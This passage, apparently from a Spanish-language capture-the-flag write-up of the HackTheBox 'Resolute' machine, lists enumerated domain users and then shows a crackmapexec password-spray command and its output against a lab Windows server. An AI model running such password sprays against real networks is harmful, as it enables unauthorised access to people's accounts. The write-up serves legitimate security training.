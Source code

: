 ```bash
	User Name   :	stevie
	Description :	
	User Name   :	claire
	Description :	
	User Name   :	paulo
	Description :	
	User Name   :	steve
	Description :	
	User Name   :	annette
	Description :	
	User Name   :	annika
	Description :	
	User Name   :	per
	Description :	
	User Name   :	claude
	Description :	
	User Name   :	melanie
	Description :	
	User Name   :	zach
	Description :	
	User Name   :	simon
	Description :	
	User Name   :	naoki
	Description :	
```

# PasswordSpray

- Ahora podemos usar **crackmapexec** para ver si algún usuario usa la contraseña mediante un **passwordspray**.

```bash
➜  content crackmapexec smb 10.129.96.155 -u users.txt -p Welcome123! --continue-on-success
SMB         10.129.96.155   445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\Administrator:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\Guest:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\krbtgt:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\DefaultAccount:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\ryan:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\marko:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\sunita:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\abigail:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\marcus:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\sally:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\fred:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\angela:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\felicia:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\gustavo:Welcome123! STATUS_LOGON_FAILURE
```